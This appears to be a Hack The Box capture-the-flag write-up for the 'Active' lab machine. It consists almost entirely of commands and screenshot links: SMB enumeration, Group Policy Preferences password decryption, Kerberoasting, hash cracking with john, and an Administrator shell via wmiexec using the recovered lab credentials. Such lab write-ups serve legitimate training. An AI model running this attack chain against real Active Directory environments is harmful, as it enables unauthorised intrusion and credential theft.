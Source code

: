 ```
enum4linux 10.10.10.100
smbclient \\\\10.10.10.100\\Replication
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
./GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100 –request
john hash_admin -w=/usr/share/wordlists/rockyou.txt
./wmiexec.py 'active/Administrator:Ticketmaster1968@10.10.10.100'
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.100
```
![image](https://github.com/regarmulia/HTB/assets/33616880/62eec5e6-380c-45c5-bc44-3bdb54c40f26)


```
enum4linux 10.10.10.100
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d7486643-ea46-46bb-b33a-6b865d78f206)


```
smbclient \\\\10.10.10.100\\Replication
anonymous
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6935ff75-0a3c-4efc-aabb-190a8a5c0482)

![image](https://github.com/regarmulia/HTB/assets/33616880/776f15e6-13c4-4caf-bbd4-ac9a9844bce6)

![image](https://github.com/regarmulia/HTB/assets/33616880/fceddd91-4474-4b35-aed0-60eb1ca4a232)


```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d3259bc4-f640-4b5a-afe6-ed7a44efb518)


```
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/64129b61-51f4-40b3-99c6-6317737bf90b)


```
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
./GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100 –request
john hash_admin -w=/usr/share/wordlists/rockyou.txt 
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d6a98c1f-8f1d-4498-8270-58fbae138d3f)


```
cp /usr/share/doc/python3-impacket/examples/wmiexec.py .
./wmiexec.py 'active/Administrator:Ticketmaster1968@10.10.10.100'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d3c1ac09-596b-4154-a3c8-dd11e9b7d062)
